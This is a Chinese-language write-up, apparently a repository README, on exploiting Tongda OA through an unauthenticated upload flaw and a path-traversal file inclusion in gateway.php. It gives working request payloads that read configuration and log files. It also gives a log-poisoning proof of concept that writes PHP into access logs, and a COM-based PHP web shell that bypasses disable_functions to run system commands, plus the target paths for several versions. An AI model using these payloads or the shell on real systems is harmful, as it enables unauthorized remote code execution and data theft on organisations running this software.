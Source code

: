 ## 通达OA



### 文件包含测试

文件包含检测，payload:

	ip/ispirit/interface/gateway.php?json={"url":"/general/../../mysql5/my.ini"}

利用文件包含访问mysql.ini,检查是否有某些特定字符串 ，比如```innodb_log_group_home_dir```
![](include-poc.jpg)

payload2:

	ip/ispirit/interface/gateway.php?json={}&url=/general/../../nginx/logs/oa.access.log

利用文件包含访问OA日志
![](include-poc2.jpg)

## 复现

下载源码，链接：https://pan.baidu.com/s/1HP5pDsAK2QLOWpnB1JX-Yg 提取码：vab0 

是个exe，安装解压完是php代码。

用Sublime打开，都是16进制加密

![](2.jpg)

用notepad打开显示，zend加密，

![](3.jpg)

[php在线解密网站](http://dezend.qiling.org/free.html)  解密出源代码。

**文件上传**

ispirit/im/upload.php

要上传首先需要绕过登陆验证，在本系统中auth.php是登陆验证的相关逻辑，但在upload.php未修复前，如果$P非空就不需要经过auth.php验证即可执行后续代码。利用此处逻辑漏洞可绕过登陆验证直接上传文件。

![](4.jpg)

经过下载源码测试，上传后的文件在 ```MYOA/attach/im/2003/```目录下。

因上传后的文件不在根目录，所以无法直接利用，因此需要进行文件包含。
![](5.jpg)

**文件包含**

![](6.jpg)

与上传相反，这里不传P参数就可以文件包含。

未修复前，可通过精心构造json进入47行的includ_once进行文件包含。官方在补丁中过滤了 ```..```防止用户读取其他目录文件。

## POC

poc有很多，其一，

首先构造url并访问，在日志中写入一句话，原理是OA默认会将访问url，agent写日志。

	/ispirit/interface/gateway.php?json={}&a=<?php file_put_contents('1.php','hello123');?>

先在浏览器访问，
![](7.jpg)
发现"<"被浏览器url编码了
![](8.png)
用burp重新发包。
![](9.jpg)
成功写入日志。(写日志的方式省去了上传)
![](10.png)

文件包含
![](11.jpg)

如果php poc 为 ```<?php file_put_contents('1.php','hello123');?>```

则上传到 存在漏洞文件 gateway.php 同级目录，如果php poc为```<?php file_put_contents('../1.php','hello123');?>```,则上传到 上一级目录 ispirit 目录下。**注意路径**。


## exp

通过 upload.php 上传一个文件，可自定义后缀名。经过下载源码测试，上传后的文件在 ```MYOA/attach/im/2003/```目录下。

**思路一**：

上传一个写shell的php文件，在利用文件包含写shell。

具体见exp.py。

**思路二**：

执行cmd, 

MYOA/bin/ 目录下的 php.ini 禁用了一些执行，命令的函数。

	disable_functions = exec,shell_exec,system,passthru,proc_open,show_source,phpinfo

	disable_classes =

参考[使用com组件绕过disable_functions](https://www.cnblogs.com/-qing-/p/10944118.html)。

eg:

	<?php
	$command=$_GET['a'];
	$wsh = new COM('WScript.shell'); // 生成一个COM对象　Shell.Application也能
	$exec = $wsh->exec("cmd /c".$command); //调用对象方法来执行命令
	$stdout = $exec->StdOut();
	$stroutput = $stdout->ReadAll();
	echo $stroutput;
	?>

这里写的exp总是将post数据自动url编码。达不到burp的效果。

![](12.jpg)

<br/>

![](13.png)

查看资料，

[python requests不进行编码直接发送的办法](https://www.jianshu.com/p/e1a8527d5395)

需要先设置一次请求头setHeader("Content-Type", "application/x-www-form-urlencoded")再将数据拼接成string格式再进行发送  ：)

终于写成了exp2.py。


## 版本路径

不同环境路径不同。

例如2013：

/ispirit/im/upload.php

/ispirit/interface/gateway.php

例如2017：

/ispirit/im/upload.php

/mac/gateway.php

## 后记

一些趣事。

正常该用post包含的。
![](post-include.jpg)

get包含就很玄学了。正常get请求(不空行)是不行的,在浏览器GET请求也是不能包含的。
![](include.jpg)

注意看我光标位置。必须空出来一行，否则不成功。get无请求体，不知道是什么原因。
![](include2.jpg)
空两行试试
![](include3.jpg)
发包，Content-Length都有了，可真牛啊。
![](include4.jpg)
wireshark抓个包,get没请求体呀。见```strange-get-include.pcap```。
![](1.jpg)



## 参考资料

https://mp.weixin.qq.com/s?__biz=MzUzNTEyMTE0Mw==&mid=2247483673&idx=1&sn=a1f88fa6c62b3d6e80f0b8a4e6d87a37&chksm=fa8b1c81cdfc9597cef9f078508611f765360e049978ac53f00b6a608a0e21ec5704879000e4&mpshare=1&scene=1&srcid=&sharer_sharetime=1584615867059&sharer_shareid=5a0049ad005b04d2683ee755107dbbd6#rd


http://club.tongda2000.com/forum.php?mod=viewthread&tid=128372


[**PHP绕过disable_function限制（一）**](https://www.cnblogs.com/-qing-/p/10944118.html)

[python requests不进行编码直接发送的办法](https://www.jianshu.com/p/e1a8527d5395)